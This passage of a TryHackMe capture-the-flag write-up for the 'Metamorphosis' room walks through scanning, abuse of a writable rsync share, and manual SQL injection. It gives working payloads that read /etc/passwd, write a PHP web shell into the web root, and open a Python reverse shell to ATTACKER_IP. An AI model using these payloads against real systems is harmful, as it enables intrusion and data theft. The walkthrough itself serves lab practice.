|     	MSF:ILITIES/REDHAT_LINUX-CVE-2019-0217/	6.0	https://vulners.com/metasploit/MSF:ILITIES/REDHAT_LINUX-CVE-2019-0217/	*EXPLOIT*
|     	MSF:ILITIES/IBM-HTTP_SERVER-CVE-2019-0217/	6.0	https://vulners.com/metasploit/MSF:ILITIES/IBM-HTTP_SERVER-CVE-2019-0217/	*EXPLOIT*
|     	CVE-2019-0217	6.0	https://vulners.com/cve/CVE-2019-0217
|     	EDB-ID:47689	5.8	https://vulners.com/exploitdb/EDB-ID:47689	*EXPLOIT*
|     	CVE-2020-1927	5.8	https://vulners.com/cve/CVE-2020-1927
|     	CVE-2019-10098	5.8	https://vulners.com/cve/CVE-2019-10098
|     	1337DAY-ID-33577	5.8	https://vulners.com/zdt/1337DAY-ID-33577	*EXPLOIT*
|     	MSF:ILITIES/UBUNTU-CVE-2018-1333/	5.0	https://vulners.com/metasploit/MSF:ILITIES/UBUNTU-CVE-2018-1333/	*EXPLOIT*
|     	MSF:ILITIES/UBUNTU-CVE-2018-1303/	5.0	https://vulners.com/metasploit/MSF:ILITIES/UBUNTU-CVE-2018-1303/	*EXPLOIT*
|     	MSF:ILITIES/UBUNTU-CVE-2017-15710/	5.0	https://vulners.com/metasploit/MSF:ILITIES/UBUNTU-CVE-2017-15710/	*EXPLOIT*
|     	MSF:ILITIES/REDHAT_LINUX-CVE-2020-9490/	5.0	https://vulners.com/metasploit/MSF:ILITIES/REDHAT_LINUX-CVE-2020-9490/	*EXPLOIT*
|     	MSF:ILITIES/ORACLE_LINUX-CVE-2020-9490/	5.0	https://vulners.com/metasploit/MSF:ILITIES/ORACLE_LINUX-CVE-2020-9490/	*EXPLOIT*
|     	MSF:ILITIES/ORACLE-SOLARIS-CVE-2020-1934/	5.0	https://vulners.com/metasploit/MSF:ILITIES/ORACLE-SOLARIS-CVE-2020-1934/	*EXPLOIT*
|     	MSF:ILITIES/ORACLE-SOLARIS-CVE-2017-15710/	5.0	https://vulners.com/metasploit/MSF:ILITIES/ORACLE-SOLARIS-CVE-2017-15710/	*EXPLOIT*
|     	MSF:ILITIES/IBM-HTTP_SERVER-CVE-2017-15710/	5.0	https://vulners.com/metasploit/MSF:ILITIES/IBM-HTTP_SERVER-CVE-2017-15710/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP9-CVE-2020-9490/	5.0	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP9-CVE-2020-9490/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-9490/	5.0	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-9490/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP3-CVE-2017-15710/	5.0	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP3-CVE-2017-15710/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP2-CVE-2017-15710/	5.0	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP2-CVE-2017-15710/	*EXPLOIT*
|     	MSF:ILITIES/FREEBSD-CVE-2020-9490/	5.0	https://vulners.com/metasploit/MSF:ILITIES/FREEBSD-CVE-2020-9490/	*EXPLOIT*
|     	MSF:ILITIES/CENTOS_LINUX-CVE-2020-9490/	5.0	https://vulners.com/metasploit/MSF:ILITIES/CENTOS_LINUX-CVE-2020-9490/	*EXPLOIT*
|     	MSF:ILITIES/CENTOS_LINUX-CVE-2017-15710/	5.0	https://vulners.com/metasploit/MSF:ILITIES/CENTOS_LINUX-CVE-2017-15710/	*EXPLOIT*
|     	MSF:ILITIES/APACHE-HTTPD-CVE-2020-9490/	5.0	https://vulners.com/metasploit/MSF:ILITIES/APACHE-HTTPD-CVE-2020-9490/	*EXPLOIT*
|     	MSF:ILITIES/AMAZON-LINUX-AMI-2-CVE-2020-9490/	5.0	https://vulners.com/metasploit/MSF:ILITIES/AMAZON-LINUX-AMI-2-CVE-2020-9490/	*EXPLOIT*
|     	CVE-2021-26690	5.0	https://vulners.com/cve/CVE-2021-26690
|     	CVE-2020-9490	5.0	https://vulners.com/cve/CVE-2020-9490
|     	CVE-2020-1934	5.0	https://vulners.com/cve/CVE-2020-1934
|     	CVE-2019-17567	5.0	https://vulners.com/cve/CVE-2019-17567
|     	CVE-2019-10081	5.0	https://vulners.com/cve/CVE-2019-10081
|     	CVE-2019-0220	5.0	https://vulners.com/cve/CVE-2019-0220
|     	CVE-2019-0196	5.0	https://vulners.com/cve/CVE-2019-0196
|     	CVE-2018-17199	5.0	https://vulners.com/cve/CVE-2018-17199
|     	CVE-2018-17189	5.0	https://vulners.com/cve/CVE-2018-17189
|     	CVE-2018-1333	5.0	https://vulners.com/cve/CVE-2018-1333
|     	CVE-2018-1303	5.0	https://vulners.com/cve/CVE-2018-1303
|     	CVE-2017-15710	5.0	https://vulners.com/cve/CVE-2017-15710
|     	MSF:ILITIES/ORACLE-SOLARIS-CVE-2019-0197/	4.9	https://vulners.com/metasploit/MSF:ILITIES/ORACLE-SOLARIS-CVE-2019-0197/	*EXPLOIT*
|     	CVE-2019-0197	4.9	https://vulners.com/cve/CVE-2019-0197
|     	MSF:ILITIES/UBUNTU-CVE-2018-1302/	4.3	https://vulners.com/metasploit/MSF:ILITIES/UBUNTU-CVE-2018-1302/	*EXPLOIT*
|     	MSF:ILITIES/UBUNTU-CVE-2018-1301/	4.3	https://vulners.com/metasploit/MSF:ILITIES/UBUNTU-CVE-2018-1301/	*EXPLOIT*
|     	MSF:ILITIES/REDHAT_LINUX-CVE-2020-11993/	4.3	https://vulners.com/metasploit/MSF:ILITIES/REDHAT_LINUX-CVE-2020-11993/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-11993/	4.3	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-11993/	*EXPLOIT*
|     	MSF:ILITIES/DEBIAN-CVE-2019-10092/	4.3	https://vulners.com/metasploit/MSF:ILITIES/DEBIAN-CVE-2019-10092/	*EXPLOIT*
|     	MSF:ILITIES/CENTOS_LINUX-CVE-2020-11993/	4.3	https://vulners.com/metasploit/MSF:ILITIES/CENTOS_LINUX-CVE-2020-11993/	*EXPLOIT*
|     	MSF:ILITIES/APACHE-HTTPD-CVE-2020-11993/	4.3	https://vulners.com/metasploit/MSF:ILITIES/APACHE-HTTPD-CVE-2020-11993/	*EXPLOIT*
|     	MSF:ILITIES/APACHE-HTTPD-CVE-2019-10092/	4.3	https://vulners.com/metasploit/MSF:ILITIES/APACHE-HTTPD-CVE-2019-10092/	*EXPLOIT*
|     	MSF:ILITIES/AMAZON-LINUX-AMI-2-CVE-2020-11993/	4.3	https://vulners.com/metasploit/MSF:ILITIES/AMAZON-LINUX-AMI-2-CVE-2020-11993/	*EXPLOIT*
|     	EDB-ID:47688	4.3	https://vulners.com/exploitdb/EDB-ID:47688	*EXPLOIT*
|     	CVE-2020-11993	4.3	https://vulners.com/cve/CVE-2020-11993
|     	CVE-2019-10092	4.3	https://vulners.com/cve/CVE-2019-10092
|     	CVE-2018-1302	4.3	https://vulners.com/cve/CVE-2018-1302
|     	CVE-2018-1301	4.3	https://vulners.com/cve/CVE-2018-1301
|     	CVE-2018-11763	4.3	https://vulners.com/cve/CVE-2018-11763
|     	1337DAY-ID-33575	4.3	https://vulners.com/zdt/1337DAY-ID-33575	*EXPLOIT*
|     	MSF:ILITIES/UBUNTU-CVE-2018-1283/	3.5	https://vulners.com/metasploit/MSF:ILITIES/UBUNTU-CVE-2018-1283/	*EXPLOIT*
|     	MSF:ILITIES/REDHAT_LINUX-CVE-2018-1283/	3.5	https://vulners.com/metasploit/MSF:ILITIES/REDHAT_LINUX-CVE-2018-1283/	*EXPLOIT*
|     	MSF:ILITIES/ORACLE-SOLARIS-CVE-2018-1283/	3.5	https://vulners.com/metasploit/MSF:ILITIES/ORACLE-SOLARIS-CVE-2018-1283/	*EXPLOIT*
|     	MSF:ILITIES/IBM-HTTP_SERVER-CVE-2018-1283/	3.5	https://vulners.com/metasploit/MSF:ILITIES/IBM-HTTP_SERVER-CVE-2018-1283/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP2-CVE-2018-1283/	3.5	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP2-CVE-2018-1283/	*EXPLOIT*
|     	MSF:ILITIES/CENTOS_LINUX-CVE-2018-1283/	3.5	https://vulners.com/metasploit/MSF:ILITIES/CENTOS_LINUX-CVE-2018-1283/	*EXPLOIT*
|     	CVE-2018-1283	3.5	https://vulners.com/cve/CVE-2018-1283
|     	CVE-2020-13938	2.1	https://vulners.com/cve/CVE-2020-13938
|     	PACKETSTORM:152441	0.0	https://vulners.com/packetstorm/PACKETSTORM:152441	*EXPLOIT*
|     	EDB-ID:46676	0.0	https://vulners.com/exploitdb/EDB-ID:46676	*EXPLOIT*
|     	1337DAY-ID-663	0.0	https://vulners.com/zdt/1337DAY-ID-663	*EXPLOIT*
|     	1337DAY-ID-601	0.0	https://vulners.com/zdt/1337DAY-ID-601	*EXPLOIT*
|     	1337DAY-ID-4533	0.0	https://vulners.com/zdt/1337DAY-ID-4533	*EXPLOIT*
|     	1337DAY-ID-3109	0.0	https://vulners.com/zdt/1337DAY-ID-3109	*EXPLOIT*
|_    	1337DAY-ID-2237	0.0	https://vulners.com/zdt/1337DAY-ID-2237	*EXPLOIT*
139/tcp open  netbios-ssn syn-ack ttl 61 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack ttl 61 Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
873/tcp open  rsync       syn-ack ttl 61 (protocol version 31)
|_banner: @RSYNCD: 31.0
| rsync-list-modules: 
|_  Conf           	All Confs
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/14%OT=22%CT=1%CU=41461%PV=Y%DS=4%DC=T%G=Y%TM=611718F
OS:E%P=i686-pc-windows-windows)SEQ(SP=105%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A
OS:)SEQ(CI=Z%II=I)OPS(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508
OS:ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W
OS:5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y
OS:%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%
OS:T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD
OS:=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE
OS:(R=Y%DFI=N%T=40%CD=S)

Network Distance: 4 hops
Service Info: Host: INCOGNITO; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 0s, deviation: 1s, median: 0s
| dns-blacklist: 
|   SPAM
|_    l2.apews.org - FAIL
|_fcrdns: FAIL (No PTR record)
|_ipidseq: ERROR: Script execution failed (use -d to debug)
|_msrpc-enum: NT_STATUS_OBJECT_NAME_NOT_FOUND
| nbstat: NetBIOS name: INCOGNITO, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   INCOGNITO<00>        Flags: <unique><active>
|   INCOGNITO<03>        Flags: <unique><active>
|   INCOGNITO<20>        Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 60988/tcp): CLEAN (Timeout)
|   Check 2 (port 58531/tcp): CLEAN (Timeout)
|   Check 3 (port 42650/udp): CLEAN (Timeout)
|   Check 4 (port 19500/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_path-mtu: ERROR: Script execution failed (use -d to debug)
|_qscan: ERROR: Script execution failed (use -d to debug)
| smb-mbenum: 
|   DFS Root
|     INCOGNITO  0.0  incognito server (Samba, Ubuntu)
|   Master Browser
|     INCOGNITO  0.0  incognito server (Samba, Ubuntu)
|   Print server
|     INCOGNITO  0.0  incognito server (Samba, Ubuntu)
|   Server
|     INCOGNITO  0.0  incognito server (Samba, Ubuntu)
|   Server service
|     INCOGNITO  0.0  incognito server (Samba, Ubuntu)
|   Unix server
|     INCOGNITO  0.0  incognito server (Samba, Ubuntu)
|   Windows NT/2000/XP/2003 server
|     INCOGNITO  0.0  incognito server (Samba, Ubuntu)
|   Workstation
|_    INCOGNITO  0.0  incognito server (Samba, Ubuntu)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: incognito
|   NetBIOS computer name: INCOGNITO\x00
|   Domain name: \x00
|   FQDN: incognito
|_  System time: 2021-08-14T01:09:29+00:00
| smb-protocols: 
|   dialects: 
|     NT LM 0.12 (SMBv1) [dangerous, but default]
|     2.02
|     2.10
|     3.00
|     3.02
|_    3.11
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-capabilities: 
|   2.02: 
|     Distributed File System
|   2.10: 
|     Distributed File System
|     Leasing
|     Multi-credit operations
|   3.00: 
|     Distributed File System
|     Leasing
|     Multi-credit operations
|   3.02: 
|     Distributed File System
|     Leasing
|     Multi-credit operations
|   3.11: 
|     Distributed File System
|     Leasing
|_    Multi-credit operations
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-14T01:09:31
|_  start_date: N/A
| traceroute-geolocation: 
|   HOP  RTT     ADDRESS       GEOLOCATION
|   1    97.00   10.4.0.1      - ,- 
|   2    ...
|   3    ...
|_  4    419.00  10.10.76.228  - ,- 

TRACEROUTE (using port 18/tcp)
HOP RTT       ADDRESS
1   97.00 ms  10.4.0.1
2   ... 3
4   419.00 ms 10.10.76.228

Post-scan script results:
| clock-skew: 
|   0s: 
|     10.10.76.228
|_    10.10.76.228
| reverse-index: 
|   22/tcp: 10.10.76.228, 10.10.76.228
|   80/tcp: 10.10.76.228, 10.10.76.228
|   139/tcp: 10.10.76.228, 10.10.76.228
|   445/tcp: 10.10.76.228, 10.10.76.228
|_  873/tcp: 10.10.76.228, 10.10.76.228
Read data files from: C:\Program Files (x86)\Nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 14 09:14:38 2021 -- 2 IP addresses (2 hosts up) scanned in 1298.37 seconds
```

Gobuster:

```text
http://10.10.76.228/.htpasswd            (Status: 403) [Size: 277]
http://10.10.76.228/.htaccess            (Status: 403) [Size: 277]
http://10.10.76.228/.hta                 (Status: 403) [Size: 277]
http://10.10.76.228/admin                (Status: 301) [Size: 312] [--> http://10.10.76.228/admin/]
http://10.10.76.228/index.php            (Status: 200) [Size: 10818]
http://10.10.76.228/server-status        (Status: 403) [Size: 277]
```

Main page:


Admin page:


Admin source page:


Additional Step for SMB Enum:

```bash
┌💁  root @ 💻  austin-helper-x13 in 📁  TryHackMe-Metamorphosis-Completed
└❯ smbclient -L \\\\10.10.76.228
Enter WORKGROUP\root's password:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (incognito server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```


Enumerate rsync:

```bash
┌💁  root @ 💻  austin-helper-x13 in 📁  TryHackMe-Metamorphosis-Completed
└❯ rsync -rdt rsync://10.10.76.228:873
Conf            All Confs

┌💁  root @ 💻  austin-helper-x13 in 📁  TryHackMe-Metamorphosis-Completed
└❯ rsync -rdt rsync://10.10.76.228:873/Conf
drwxrwxrwx          4,096 2021/04/11 04:03:08 .
-rw-r--r--          4,620 2021/04/10 04:01:22 access.conf
-rw-r--r--          1,341 2021/04/10 03:56:12 bluezone.ini
-rw-r--r--          2,969 2021/04/10 04:02:24 debconf.conf
-rw-r--r--            332 2021/04/10 04:01:38 ldap.conf
-rw-r--r--         94,404 2021/04/10 04:21:57 lvm.conf
-rw-r--r--          9,005 2021/04/10 03:58:40 mysql.ini
-rw-r--r--         70,207 2021/04/10 03:56:56 php.ini
-rw-r--r--            320 2021/04/10 04:03:16 ports.conf
-rw-r--r--            589 2021/04/10 04:01:07 resolv.conf
-rw-r--r--             29 2021/04/10 04:02:56 screen-cleanup.conf
-rw-r--r--          9,542 2021/04/10 04:00:59 smb.conf
-rw-rw-r--             72 2021/04/11 04:03:06 webapp.ini
```


Download conf from rsync:

```bash

┌💁  root @ 💻  austin-helper-x13 in 📁  TryHackMe-Metamorphosis-Completed
└❯ rsync -av rsync://10.10.76.228:873/Conf rsync-conf
receiving incremental file list
./
access.conf
bluezone.ini
debconf.conf
ldap.conf
lvm.conf
mysql.ini
php.ini
ports.conf
resolv.conf
screen-cleanup.conf
smb.conf
webapp.ini

sent 255 bytes  received 194,360 bytes  25,948.67 bytes/sec
total size is 193,430  speedup is 0.99
```


Checking all the files from rsync, there is a file called 'webapp.ini' which contain username and password.


As the admin source page stated, there is a development environment.

Given the webapp.ini configure for prod, we can try to change to dev perhaps.


Let upload to the system.

```bash
┌💁  root @ 💻  austin-helper-x13 in 📁  TryHackMe-Metamorphosis-Completed
└❯ rsync -av --no-o --no-g rsync-conf/webapp.ini rsync://10.10.76.228:873/Conf/webapp.ini
sending incremental file list
webapp.ini
```


Now, let's check the admin page again.


It allow us to get info of users, let's try simple stuff.

Since we have the username and password from webapp.ini

Pass it through, see what's happen, though, we know proabably we can try sqli, just have to play around with the payload.


Now, let's try simple sqli, you will have to try multiple combination.

Although, you can use sqlmap, however we are using manual sqli (for me to practice manual job --- OSCP)

Such as single quote (') or double quote ("), then using OR statement with condition 1 = 1 that always return true.

Then double dash (--) will act as comment out additional condition, and close the condition with single quote (') or double quote (")

Now, you will have your simple sqli payload, that to confirm the field with sqli exploitable.

Payload as below:

```text
" OR 1 = 1 -- "
```


Now, we know the field is sqli exploitable.

Let's try something else, try to guess how many column.

Payload as below:

```text
" union all select 1,2,3 -- -
```


Can we try to read file?

Payload as below:

```text
" union select 1,load_file('/etc/passwd'),3 -- -
```


How about write to write?

Payload as below:

```text
" union select 1,'this is a test message',3 into outfile '/tmp/test' -- -
" union select 1,'this is a test message',3 into outfile '/var/www/html/test' -- -
" union select 1,load_file('/tmp/test'),3 -- -
```

Once we executed the payload, you will get the error page.


But you can always retirve the result, check below:


Now, let's craft the payload, if possible for us to get command execution or reverse shell.

We know the web server is using php base, we can add in the php base payload.

Payload as below:

```text
" union select 1,"<?php echo shell_exec($_GET['cmd']);?>",3 into outfile '/var/www/html/shell.php' -- -
```

Once we executed the payload, you will get the error page.


However, when you open up the shell.php created, you are good to have command execution.


We going to check if python is avaialble in the system. Check this out, we have python.


Let's get reverse shell !!!

Payload as below:

```text
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

Do ensure you encoded as URL to allow easier pass thru.

```text
python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%22ATTACKER_IP%22%2C8888))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3Bos.dup2(s.fileno()%2C2)%3Bimport%20pty%3B%20pty.spawn(%22%2Fbin%2Fbash%22)%27
```


Yeah, we get our reverse shell.


We have our user.txt


Time to enumerate and get PrivEsc.

We have check sudo, cron and suid, nothing return.

However, by checking getcap, here what we found.


Checking tcpdump permission, we can run it as root.



Let's try to capture some packet and see what's inside.

```text
tcpdump -elnntttttvvvAS --number -i any -w pcap.pcap
```



Time to inspect the pcap.


There is the ssh key.

Let try to access to the system using the key then, you should have figure out the key is belong to ...

Well, there you have your root flag !!!

<br />

---

> Do let me know any command or step can be improve or you have any question you can contact me via THM message or write down comment below or via FB


